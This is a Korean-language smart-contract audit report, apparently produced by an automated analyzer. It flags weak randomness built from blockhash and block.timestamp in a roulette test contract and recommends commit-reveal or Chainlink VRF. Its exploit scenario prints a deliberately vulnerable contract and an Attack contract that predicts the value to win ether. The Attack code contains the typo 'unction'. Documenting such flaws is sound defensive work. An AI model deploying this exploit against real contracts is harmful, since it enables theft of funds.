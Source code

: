 <button class='date-button'>2023-11-23</button>

# Audit Report

> 🔍 `Filename`: /Users/sikk/Desktop/Antibug/SafeDevAnalyzer/test/prng/roulette.sol
---

[<button class='styled-button'>English</button>](roulette_en.md)
<br />


<style>
    .date-button{
        color:black;
        border:none;
        font-weight: bold;
        background-color: sand;
        width: 150px;
        height: 25px;
        float: right;
        border-radius: 20px;
    }
    .styled-button{
        color: black;
        border: none;
        font-weight: bold;
        background-color: lightskyblue;
        width: 100px;
        height: 30px;
        float: right;
        border-radius: 20px;
    }
    .styled-button:hover{
        color: black;
        border: none;
        font-weight: bold;
        background-color: pink;
        width: 100px;
        height: 30px;
        float: right;
        cursor: pointer;
    }
</style>

               
<details>
<summary style='font-size: 20px;'>weak-prng</summary>
<div markdown='1'>

## Detect Results

| Detector | Impact | Confidence | Info |
|:---:|:---:|:---:|:---:|
| weak-prng | <span style='color:lightcoral'> High </span> | <span style='color:olivedrab'> Medium </span> | guess 함수는 블록 변수를 이용하여 난수를 생성합니다. NEW VARIABLE answer = uint256(keccak256(bytes)(abi.encodePacked(blockhash(uint256)(block.number - 1),block.timestamp))) |||


## Vulnerabiltiy in code:

```solidity
line 5:     function guess(uint _guess) public {

```
 ---

 ```solidity
line 6:         uint answer = uint(

```
 ---

 
<details>

<summary style='font-size: 18px; color:pink;'> 💡 Background </summary><br />

블록체인에서 Randomness란?
- Randomness는 `pseudo-randomness`와 `true-randomness`로 구분할 수 있습니다.
    - `pseudo-randomness`는 결정론적 알고리즘에 의해 생성되며, 초기 시드 값을 알고 있다면 예측할 수 있습니다.
    - `true-randomness`는 엔트로피 소스에 의존하고 있어, 예측 불가능한 랜덤 값을 생성합니다.

- 블록체인 네트워크의 노드는 다양한 알고리즘을 이용해 `pseudo-randomness`를 생성할 수 있으며, 복권 당첨자 선정, 보상 분배, 게임에서 NFT 토큰 아이템의 희귀도, 전리품 분배 등의 시나리오에서 난수를 사용합니다.
- 그러나 블록체인은 네트워크의 모든 노드가 동일한 결론에 도달하도록 보장하기 때문에, 동일한 입력이 주어지면 컨트랙트의 출력은 항상 동일하다는 특징이 있습니다.
    
</details>

<br />

## Description:


블록체인에서는 완전한 난수를 생성할 수 없습니다.
완전한 난수가 생성되지 않는다는 것은 난수 생성에 대한 결과를 예측할 수 있어 조작을 할 수 있다는 것을 의미합니다.

완전한 난수는 `atmospheric noise`나 `user action` 등 예측할 수 없는 외부 요인에 의존해야 하지만, 스마트 컨트랙트는 이러한 요인에 직접적으로 접근할 수 없어 완전한 난수를 생성할 수 없습니다.

특히나, 스마트 컨트랙트는 개인키 생성 등 보안 메커니즘을 위해 사용하는 경우도 있으나, 공격자가 개인 키를 예측하여 계정이나 자금에 무단으로 액세스할 수도 있습니다.

블록체인에서 난수를 생성하는 방법은 크게 두 가지로 나눌 수 있습니다.

`1. 블록체인 네트워크의 노드가 생성한 난수를 사용하는 방법`

블록 변수에는 `block.basefee(uint)`, `block.chainid(uint)`, `block.coinbase()`, `block.difficulty(uint)`, `block.gaslimit(uint)`, `block.number(uint)`, `block.timestamp(uint)`, `blockhash(uint)` 등이 있으며,
이 중 `block.difficulty`, `blockhash`, `block.number`, `block.timestamp`가 난수 생성에 주로 활용됩니다.

https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties:~:text=use%20utility%20functions.-,Block%20and%20Transaction%20Properties,%EF%83%81,-blockhash(uint%20blockNumber

블록 데이터에 의해 생성되는 난수는 일반적인 사용자가 난수를 예측할 수 있는 가능성은 제한하지만, 악의적인 채굴자는 블록 데이터를 조작하여 난수를 조작할 수 있습니다.
블록 데이터는 한 블록에서 동일한 값을 갖고 있어, 같은 블록에서 난수를 생성하면 항상 동일한 결과를 얻을 수 있습니다.


`2. 외부 난수 생성기를 사용하는 방법`

블록체인 오라클에서 난수 시드를 생성할 수 있으며, 온체인 오라클을 사용해 오프체인 데이터를 온체인에서 얻을 수 있습니다.
API 데이터와 같은 외부 randomness 소스를 가져와 컨트랙트 동작에 영향을 줄 수 있어 블록체인 변수를 사용해 난수를 생성하는 것보다 예측 불가능성을 높일 수 있지만, 오라클에 대한 신뢰도 문제가 발생할 수 있습니다.
    

## Recommendation:


- `block.hash`, `block.timestamp`를 난수 생성을 위한 소스로 사용하지 않는 것이 좋습니다.
- 참가자가 미리 값을 commit하고, 모든 commit이 제출된 후 실제 값이 공개되는 방식(`Commit-Reveal Schemes`)으로 난수를 생성하는 것이 좋습니다.
- 여러 입력을 활용해 난수를 생성하는 탈중앙화 솔루션인 `Chainlink VRF(Verifiable Random Function)`를 활용하는 것이 좋습니다.
- 하드웨어 난수 생성기(RNG)를 사용해 공격자가 예측할 수 없는 무작위 값 생성하는 것이 좋습니다.  
    

## Exploit scenario:


```solidity
contract GuessTheRandomNumber {
    constructor() payable {}
    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );
 
        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
 }
 ```
 
- 이전 블록의 `blockhash`와 `block.timestamp`을 난수 시드로 결합하여 업데이트 하는 방식으로 난수를 생성하고 있습니다.
- 사용자가 추측한 숫자가 생성된 숫자와 일치하면 `1 ether`를 획득하게 되는 컨트랙트이며, 무작위성이 도입된 것으로 보이지만 조작이 가능합니다.

```solidity
contract Attack {
    receive() external payable {}

    unction attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );
 
        guessTheRandomNumber.guess(answer);
    }
 
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
 }
 ```    
 
- 공격자는 `GuessTheRandomNumber` 컨트랙트의 주소를 전달해 deploy 하여 `Attack` 컨트랙트를 생성합니다.
- attack 함수에서는 GuessTheRandomNumber 컨트랙트의 guess 로직을 동일하게 구현하여, 이전 블록의 `blockhash`와 `block.timestamp`을 난수 시드로 결합하여 업데이트 하는 방식으로 난수를 생성합니다.
- `GuessTheRandomNumber` 컨트랙트의 `guess` 함수가 동일한 블록에서 실행되면 `block.number`와 `block.timestamp`는 변경되지 않기 때문에 동일한 난수를 생성할 수 있게 되어, 공격자는 `1 ether`를 획득할 수 있습니다.  
    

## Real World Examples:


1. `SmartBillions ICO (2017)`: SmartBillions는 이더리움 기반의 로또 플랫폼으로, 공격자가 로또 게임 결과를 조작하여 상금 획득할 수 있었습니다.
    https://etherscan.io/address/0x5ace17f87c7391e5792a7683069a8025b83bbd85
    https://www.reddit.com/r/ethereum/comments/74d3dc/smartbillions_lottery_contract_just_got_hacked/   
     
2. `Fomo3D (2018)`: Fomo3D는 이더리움 스마트 컨트랙트 기반의 게임으로, 공격자가 게임 결과를 조작하여 상금을 획득할 수 있었습니다.
    https://etherscan.io/address/0xa62142888aba8370742be823c1782d17a0389da1
    https://medium.com/@zhongqiangc/randomness-in-smart-contracts-is-predictable-and-vulnerable-fomo3d-part-1-4d500c628191
    

## Reference:


- https://www.slowmist.com/articles/solidity-security/Common-Vulnerabilities-in-Solidity-Randomness.html
- https://medium.com/@solidity101/100daysofsolidity-072-source-of-randomness-in-solidity-smart-contracts-ensuring-security-and-7af014bfac22
- https://dev.to/natachi/attack-vectors-in-solidity-09-bad-randomness-also-known-as-the-nothing-is-secret-attack-ca9
- https://medium.com/rektify-ai/bad-randomness-in-solidity-8b0e4a393858
    

</details>

